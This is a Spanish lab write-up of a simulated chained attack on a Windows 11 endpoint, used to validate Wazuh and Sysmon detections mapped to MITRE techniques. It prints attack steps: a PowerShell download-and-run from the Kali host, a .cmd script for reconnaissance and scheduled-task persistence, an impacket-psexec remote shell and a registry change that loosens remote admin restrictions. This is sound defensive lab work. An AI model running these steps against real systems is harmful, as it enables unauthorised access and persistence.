# Fase 3 -  Escenario APT encadenado
## Objetivo general

Simular un ataque “fin a fin” contra el endpoint Windows 11 (`DESKTOP-IS5MQHK`) dentro del laboratorio, encadenando varias técnicas MITRE para:

- Validar cómo se ve **una historia completa** de ataque en Wazuh (timeline).
    
- Confirmar la cobertura de:
    
    - T1059.001 – PowerShell
        
    - T1105 – Ingress Tool Transfer
        
    - T1053.005 – Scheduled Task
        
    - T1547.001 – Run Keys
        
    - T1082 / T1016 / T1087 – Discovery
        
- Comprobar que las reglas locales (100100, 100110, 100120, 100130, 100140, 100141, 100150) y las oficiales (92027, 92201, 92031, etc.) **trabajan juntas** sin generar ruido excesivo.
    
- Practicar el flujo de análisis de un incidente: desde la primera alerta hasta reconstruir todo el ataque.
    

---

## 1) Escenario lógico del ataque

### 1.1 Contexto

- Atacante: Kali en red **OPT3**.
    
- Víctima principal: Windows 11 en **OPT1** (`DESKTOP-IS5MQHK`).
    
- Infra de monitoreo: Wazuh Server + Sysmon en el endpoint.
    
- pfSense sigue segmentando las redes y controlando el tráfico entre OPT3 ↔ OPT1 ↔ LAN.
    
### 1.2 Cadena de técnicas

La historia que quieres simular es más o menos así:

1. **Ejecución inicial en el endpoint (T1059.001 – PowerShell)**  
    El usuario ejecuta un comando PowerShell “sospechoso” (como los ya usados en Fase 2) que:
    
    - Usa `-NoProfile` y/o `-ExecutionPolicy Bypass`.
        
    - Llama a `Invoke-WebRequest` u otro método para conectarse a un servidor remoto.
        
2. **Descarga de herramienta / payload (T1105 – Ingress Tool Transfer)**  
    Ese PowerShell descarga un fichero a `%TEMP%` (o ruta similar), simulando una herramienta del atacante.
    
3. **Persistencia (T1053.005 y/o T1547.001)**  
    El mismo comando, o uno posterior, configura **persistencia**:
    
    - Opción A: crea una **tarea programada** con `schtasks /create` (T1053.005).
        
    - Opción B: escribe una **Run key** en el Registro (T1547.001).
        
4. **Discovery en el endpoint (T1082 / T1016 / T1087)**  
    El atacante, ya “dentro”, ejecuta comandos de reconocimiento:
    
    - `systeminfo`, `whoami /all`, `ipconfig /all`, `net user`, etc.
        
5. **Comunicación con C2 / actividad remota ligera
    
    - Desde Windows 11 se hace una conexión hacia Kali (por ejemplo, una petición web o un puerto TCP cualquiera) para simular C2.
        
    - pfSense puede registrar el tráfico entre OPT1 ↔ OPT3.
        

---

## 2) Preparación previa en el laboratorio

### 2.1 Verificaciones básicas

En Wazuh y en el endpoint:

- Agente Wazuh en Windows 11 en estado **active**.
    
- Sysmon funcionando con la configuración actual (la misma que usaste en Fase 2).
    
- Comprobar que llegan eventos:
    
    - `data.win.system.channel: "Microsoft-Windows-Sysmon/Operational"`
        
    - `data.win.system.eventID: 1` y 11 (ProcessCreate, FileCreate).
        

En pfSense:

- Confirmar que:
    
    - OPT1 y OPT3 tienen conectividad según las reglas que definiste.
        
    - Existe al menos una regla que **permita** tráfico desde Kali → Windows 11 para que la simulación tenga sentido (aunque sea solo HTTP/HTTPS o un puerto concreto).
        

### 2.2 Reglas locales que entran en juego

Reutilizas y combinas las reglas creadas en Fase 1 y 2:

- **Ejecución / PowerShell**
    
    - `100100/100111` (T1059.001).
        
    - `92027` (Sysmon, PowerShell sospechoso).
        
- **Persistencia**
    
    - `100110/100121` (servicios / Run keys – T1543.003 / T1547.001).
        
    - `100150` (tareas programadas vía `schtasks.exe` – T1053.005).
        
- **Discovery**
    
    - `100130 (T1082)` y `100141 (T1087)` sobre eventos Security 4688, además de las reglas Sysmon por defecto (ej. 92031) cuando corresponda.
    
- **Transferencia de herramientas**
    
    - `92213 y 92201` (Sysmon EID 11 → T1105/T1059).
        

---

## 3) Etapa A – Ejecución inicial y descarga (T1059.001 + T1105)

### Escenario 3.1 – Ingress Tool Transfer desde Kali hacia Windows 11

**Técnicas MITRE:** T1105 (Ingress Tool Transfer), T1059.001 (PowerShell)  
**Red implicada:** OPT3 (Kali, 192.168.40.30) → OPT1 (Windows 11, 192.168.20.51) a través de pfSense

#### 1. Objetivo

Simular un atacante ubicado en la red **OPT3 (Kali)** que expone un payload vía HTTP y es descargado por la víctima **Windows 11 (OPT1)** usando PowerShell.  
Se busca comprobar que:

- La transferencia de ficheros se detecta como **T1105 – Ingress Tool Transfer**.
    
- La ejecución de PowerShell se mapea a **T1059.001 – PowerShell**.
    
- La segmentación de pfSense permite únicamente el tráfico necesario (HTTP) desde OPT3 a OPT1.
---

#### 2. Ajustes de red en pfSense

En **Firewall → Rules → OPT3** se añadió una regla de paso para permitir HTTP desde Kali hacia la red de Windows:

- **Interface:** OPT3
    
- **Action:** Pass
    
- **Protocol:** IPv4 TCP
    
- **Source:** `OPT3 subnets`
    
- **Destination:** `OPT1 subnets`
    
- **Destination port range:** HTTP (80)
    
- **Description:** `Allow HTTP from Kali (OPT3) to Windows11 (OPT1)`



> ICMP permanece bloqueado por diseño, manteniendo la política habitual de firewall (no se permite ping entre Kali y Windows).

---

#### 3. Ejecución del ataque

##### 3.1 Servidor HTTP en Kali (OPT3 – 192.168.40.30)

En Kali se creó un fichero de prueba y se expuso mediante un servidor HTTP simple:
```bash
mkdir -p ~/fase3_http
cd ~/fase3_http
echo "Payload simulado Fase 3" > fase3-t1105-test.txt

# Servidor HTTP en el puerto 80
sudo python3 -m http.server 80
```

En la consola de Kali se observa la petición desde Windows:
```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.20.51 - - [01/Jan/2026 00:00:51] "GET /fase3-t1105-test.txt HTTP/1.1" 200 -
```



---

##### 3.2 Descarga del payload desde Windows 11 (OPT1 – 192.168.20.51)

En la víctima Windows 11, desde PowerShell se realizó la descarga del payload:
```powershell
powershell.exe -NoProfile -Command "Invoke-WebRequest -Uri 'http://192.168.40.30/fase3-t1105-test.txt' -OutFile $env:TEMP\fase3-t1105-test.txt"

Get-Content $env:TEMP\fase3-t1105-test.txt
```

Salida observada:
 ```powershell
 Payload simulado Fase 3
 ```

 Con esto se confirma que:
- La comunicación HTTP entre Kali y Windows funciona a través de pfSense.
    
- El fichero fue descargado correctamente en la máquina víctima.
    


---

#### 4. Evidencias en Wazuh

En **Threat Hunting** se aplicó el filtro:
```text
rule.mitre.id: (T1105 OR T1059.001)
agent.name: "DESKTOP-IS5MQHK"
```
Se obtuvieron **3 eventos relevantes**:

1. **Regla 92027 – “Powershell process spawned powershell instance”**
    
    - Canal: `Microsoft-Windows-Sysmon/Operational`
        
    - `data.win.system.eventID: 1` (Sysmon – Process Create)
        
    - `data.win.eventdata.image`:  
        `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
        
    - `data.win.eventdata.commandLine`: contiene el comando `Invoke-WebRequest -Uri 'http://192.168.40.30/...`
        
    - **MITRE:** `T1059.001` (PowerShell), táctica _Execution_.
        

2–3. **Regla 92213 – “Executable file dropped in folder commonly used by malware”**

- Canal: `Microsoft-Windows-Sysmon/Operational`
    
- `data.win.system.eventID: 11` (Sysmon – FileCreate)
    
- `data.win.eventdata.targetFilename`: rutas en `%TEMP%`, incluyendo `__PSScriptPolicyTest_*.ps1`
    
- **MITRE:** `T1105` (Ingress Tool Transfer), táctica _Command and Control_.
    
- Este comportamiento es coherente con la política de PowerShell, que genera scripts temporales en `%TEMP%` al ejecutar ciertos comandos.
    

En el panel se observa el histograma con los 3 eventos y la tabla:

- `rule.id: 92213` (T1105) – nivel 15
    
- `rule.id: 92027` (T1059.001) – nivel 4
    


##### 4.1 Vista MITRE ATT&CK – Events

Además del panel de **Threat Hunting**, se revisó la pestaña **MITRE ATT&CK → Events** con el filtro:
```text
manager.name: wazuh-server
rule.mitre.id: exists
```

Allí se observaron los siguientes eventos relacionados con el escenario:

- **T1105 – Ingress Tool Transfer**
    - Dos eventos asociados a la regla **92213**
        
    - Descripción: _“Executable file dropped in folder commonly used by malware”_
        
    - Táctica: **Command and Control**
        
- **T1059.001 – PowerShell**
    - Un evento asociado a la regla **92027**
        
    - Descripción: _“Powershell process spawned powershell instance”_
        
    - Táctica: **Execution**
        
- **T1570 – Lateral Movement**
    - Un evento asociado a la regla **92217**
        
    - Descripción: _“Executable dropped in Windows root folder”_
        
    - Táctica: **Lateral Movement**
        
    - Este evento refuerza la interpretación de que la transferencia de ficheros puede ser usada posteriormente para movimiento lateral o despliegue de herramientas.
        


#### 5. Conclusiones del escenario
- La infraestructura actual **detecta correctamente** la combinación:
    - **T1059.001 – Execution (PowerShell)** al lanzar el `Invoke-WebRequest`.
        
    - **T1105 – Ingress Tool Transfer** al escribir ficheros relacionados con la descarga en ubicaciones de `%TEMP%`.
        
- No se requirieron reglas locales nuevas: la cobertura se apoya en las reglas oficiales:
    - `92027` (Sysmon EID 1 – PowerShell sospechoso).
        
    - `92213` (Sysmon EID 11 – ficheros ejecutables en carpetas Temp).
        
- pfSense mantiene el bloqueo de ICMP entre redes, pero permite explícitamente HTTP desde OPT3 a OPT1, simulando un atacante externo que expone un payload web accesible por la víctima.
    
Este escenario se puede marcar en la matriz de cobertura como:

| Técnica   | Origen → Destino                  | Detectado por        | rule.id       | Fuente Principal | Comentario                                       |
| --------- | --------------------------------- | -------------------- | ------------- | ---------------- | ------------------------------------------------ |
| T1059.001 | Kali → Windows (PS WebRequest)    | Regla oficial Sysmon | 92027         | Sysmon EID 1     | PowerShell con comando de descarga HTTP          |
| T1105     | Kali → Windows (descarga payload) | Regla oficial Sysmon | 92213 y 92201 | Sysmon EID 11    | Ficheros creados en `%TEMP%` durante la descarga |
### 3.2 Escenario 2 – Reconocimiento + persistencia desde Kali mediante payload HTTP (T1082, T1087, T1053.005, T1105)

**Objetivo**

Simular un atacante ubicado en la red **OPT3 (Kali 192.168.40.30)** que, tras disponer de una sesión interactiva en el endpoint Windows 11 (**192.168.20.51 – usuario `killex-victim`**), descarga y ejecuta un script `.cmd` alojado en Kali.  
El script realiza:

- Reconocimiento local del sistema (técnica **T1082 – System Information Discovery**).
    
- Descubrimiento de cuentas locales (**T1087 – Account Discovery**).
    
- Creación de una tarea programada como mecanismo de persistencia (**T1053.005 – Scheduled Task**).
    
- Descarga del payload vía HTTP (**T1105 – Ingress Tool Transfer**, ya cubierta por reglas oficiales).
---

### 3.2.1 Preparación del payload en Kali

En **Kali (192.168.40.30)** se crea el payload y se expone por HTTP:
```bash
cd /var/www/html

cat > fase3-recon-persist.cmd << 'EOF'
@echo off
rem === Reconocimiento básico (T1082) ===
systeminfo >> %TEMP%\fase3-recon.txt
whoami /all  >> %TEMP%\fase3-recon.txt
ipconfig /all >> %TEMP%\fase3-recon.txt

rem === Descubrimiento de cuentas (T1087) ===
net user >> %TEMP%\fase3-recon.txt

rem === Persistencia: tarea programada (T1053.005) ===
schtasks /create ^
  /sc once ^
  /tn "Fase3_T1053_Test" ^
  /tr "C:\Windows\System32\notepad.exe" ^
  /st 23:59 ^
  /f
EOF

# Servidor Python simple 
sudo python3 -m http.server 80
```

>Nota: el firewall pfSense ya tenía una regla en OPT3 permitiendo `TCP/80` desde `192.168.40.30` hacia `192.168.20.51`, por lo que el tráfico HTTP Kali → Windows está permitido.

---

### 3.2.2 Ejecución del ataque desde Windows 11

En la sesión de **PowerShell** del usuario `killex-victim` (Windows 11 – 192.168.20.51):
```powershell
$kaliIP      = "192.168.40.30"
$payloadUrl  = "http://$kaliIP/fase3-recon-persist.cmd"
$payloadPath = "$env:TEMP\fase3-recon-persist.cmd"

# 1) Descarga del payload (T1105)
Invoke-WebRequest -Uri $payloadUrl -OutFile $payloadPath

# 2) Ejecución del script (cmd.exe lanzando comandos de recon + schtasks)
Start-Process -FilePath $payloadPath -WindowStyle Hidden
```

El script genera el artefacto local:
- `%TEMP%\fase3-recon.txt` con la salida de `systeminfo`, `whoami /all`, `ipconfig /all` y `net user`.
    
Y crea la tarea programada:
- Nombre: **`Fase3_T1053_Test`**
    
- Acción: ejecutar `C:\Windows\System32\notepad.exe` a las `23:59`.
---

### 3.2.3 Detecciones en Wazuh – Threat Hunting

En el panel **Threat Hunting**, usando el filtro:
```text
rule.id: (100130 OR 100150 OR 92031)
```

Se observan las siguientes alertas:


| Técnica MITRE | Comando / evento                        | rule.id | rule.description                                                  | Fuente principal            |
| ------------- | --------------------------------------- | ------- | ----------------------------------------------------------------- | --------------------------- |
| T1082         | `systeminfo`                            | 100130  | System information discovery via built-in commands (ATT&CK T1082) | Windows Security 4688 (WEF) |
| T1082         | `ipconfig /all`                         | 100130  | System information discovery via built-in commands (ATT&CK T1082) | Windows Security 4688 (WEF) |
| T1082         | `whoami /all`                           | 100130  | System information discovery via built-in commands (ATT&CK T1082) | Windows Security 4688 (WEF) |
| T1053.005     | `schtasks /create ... Fase3_T1053_Test` | 100150  | Scheduled task creation via schtasks.exe (ATT&CK T1053.005)       | Windows Security 4688 (WEF) |
| T1087         | `net user`                              | 100141  | Discovery activity executed (Account Discovery – ATT&CK T1087)    | Windows Security 4688 (WEF) |
### 3.2.4 Vista MITRE ATT&CK

En el panel **MITRE ATT&CK → Events**, filtrando por `manager.name: wazuh-server` y `rule.mitre.id: exists`, se observa que en un único escenario se activan simultáneamente:

- **T1082 – System Information Discovery** (regla local `100130`).
    
- **T1053.005 – Scheduled Task** (regla local `100150`).
    
- **T1087 – Account Discovery** (regla oficial `92031`).
    
- **T1059.001 – PowerShell** (regla oficial `92036`, proceso PowerShell lanzando el payload).
    
- **T1059.003 – Windows Command Shell** (reglas oficiales sobre cmd.exe).
    
- **T1105 – Ingress Tool Transfer** (regla oficial `92213`, Sysmon EID 11 sobre creación de fichero en `%TEMP%`).



Este escenario demuestra que un flujo de ataque relativamente sencillo (payload descargado desde Kali y ejecutado localmente en Windows) genera **múltiples señales correlacionadas** en Wazuh, cubriendo tácticas de:

- **Discovery**
    
- **Execution**
    
- **Persistence**
    
- **Command and Control** (para la parte de transferencia de herramienta).

### 3.3 Escenario 3 – Reconocimiento y persistencia remota vía PsExec (T1082, T1016, T1087, T1053.005, T1105)

**Objetivo**

Simular a un atacante en Kali (192.168.40.30) que dispone de credenciales administrativas locales del equipo Windows 11 (192.168.20.51) y que, tras obtener una consola remota con `impacket-psexec`, ejecuta la misma cadena de acciones de la fase anterior:

- **Reconocimiento** del host (T1082, T1016, T1087).
    
- **Persistencia** mediante tarea programada (T1053.005).
    
- **Transferencia del payload** mediante HTTP (T1105), ya validada en escenarios previos.

---
#### 3.3.1 Preparación del entorno

- Víctima: Windows 11 `DESKTOP-IS5MQHK` (192.168.20.51) con agente Wazuh.
    
- Atacante: Kali Linux (192.168.40.30, red OPT3).
    
- En pfSense se creó una regla en **Firewall → Rules → OPT3**:
    
    - `Action: Pass`
        
    - `Protocol: TCP`
        
    - `Source: 192.168.40.30`
        
    - `Destination: 192.168.20.51`
        
    - `Destination Port: 445 (MS DS)`
        
    - `Description: Allow SMB from Kali to Windows11 (psexec)`
    
    
    
- En el **Firewall de Windows Defender** se habilitó:
    
    - `Uso compartido de archivos e impresoras a través de SMBDirect` (perfil privado y público).
    )

- Para permitir que la cuenta local admin se use de forma remota vía SMB se configuró:
    
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System LocalAccountTokenFilterPolicy = 1 (DWORD)`
    
Con esta configuración, PsExec puede crear un servicio remoto y ejecutar comandos en contexto **SYSTEM**.

---
#### 3.3.2 Obtención de la consola remota (PsExec)

Desde Kali:
```bash
impacket-psexec WORKGROUP/killex-victim@192.168.20.51 cmd.exe
```

Tras autenticarse se obtiene una shell:


En los eventos de Windows esto se refleja como procesos lanzados por `DESKTOP-IS5MQHK$` con `subjectLogonId = 0x3e7` (contexto SYSTEM) y procesos hijos ejecutándose desde `C:\Windows\SysWOW64\cmd.exe`.

---

#### 3.3.3 Reconocimiento remoto – T1082 y T1016 (rule.id 100130 y 100140)

En lugar de lanzar directamente el script `fase3-recon-persist.cmd`, se **reprodujeron sus comandos de reconocimiento de forma interactiva** desde la consola de PsExec. Esto genera los mismos eventos 4688 que cuando se ejecuta el script localmente.

Comandos ejecutados:

`systeminfo whoami /all ipconfig /all arp -a netstat -ano route print`

**Detecciones:**

- La regla local **100130 – T1082**  
    `System information discovery via built-in commands (ATT&CK T1082)`
    
    Se dispara para:
    
    - `systeminfo`
        
    - `whoami /all`
        
    - `ipconfig /all`
        
    
    Ejemplo de JSON (systeminfo):
    
    - `win.eventdata.newProcessName`: `C:\Windows\SysWOW64\systeminfo.exe`
        
    - `win.eventdata.commandLine`: `systeminfo`
        
    - `rule.id`: `100130`
        
    - `rule.mitre.id`: `["T1082"]`
        
- La regla local **100140 – T1016**  
    `System network configuration discovery via built-in commands (ATT&CK T1016)`
    
    Se activa para:
    
    - `arp -a`
        
    - `netstat -ano`
        
    - `route print`
        
    
    Ejemplo de JSON (arp):
    
    - `win.eventdata.newProcessName`: `C:\Windows\SysWOW64\ARP.EXE`
        
    - `win.eventdata.commandLine`: `arp -a`
        
    - `rule.id`: `100140`
        
    - `rule.mitre.id`: `["T1016"]`
        

En el panel **MITRE ATT&CK** se visualizan múltiples eventos de tácticas de **Discovery** asociados al agente `DESKTOP-IS5MQHK` y a las técnicas **T1082** y **T1016**.

---

#### 3.3.4 Descubrimiento de cuentas – T1087 (rule.id 100141)

Desde la misma sesión remota se ejecuta:
```cmd
net user
```

La regla local **100141 – T1087**:
```text
<rule id="100141" level="7">
  <if_sid>67027</if_sid>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)\bnet\s+user\b</field>
  <description>Account discovery via "net user" (ATT&amp;CK T1087)</description>
  <mitre><id>T1087</id></mitre>
  <group>discovery,mitre,</group>
</rule>
```

Se dispara sobre el evento 4688 donde:
- `win.eventdata.newProcessName`: `C:\Windows\SysWOW64\net.exe`
    
- `win.eventdata.commandLine`: `net user`
    
- `rule.id`: `100141`
    
- `rule.mitre.id`: `["T1087"]`
    
Esto confirma que la **técnica de Account Discovery (T1087)** se detecta aunque el comando se ejecute en contexto SYSTEM y desde una sesión remota de PsExec.

**Evidencias obtenidas en Threat Hunting y MITRE del proceso de reconocimiento**

A continuación se observan los eventos registrados en **Threat Hunting**, descritos anteriormente. Filtrados con `rule.id: (100130 OR 100140 OR 100141)`.




Luego, en el panel de **MITRE ATT&CK** tenemos los mismos eventos anteriores, filtrados por `rule.mitre.id: (T1082 OR T1016 OR T1087)`

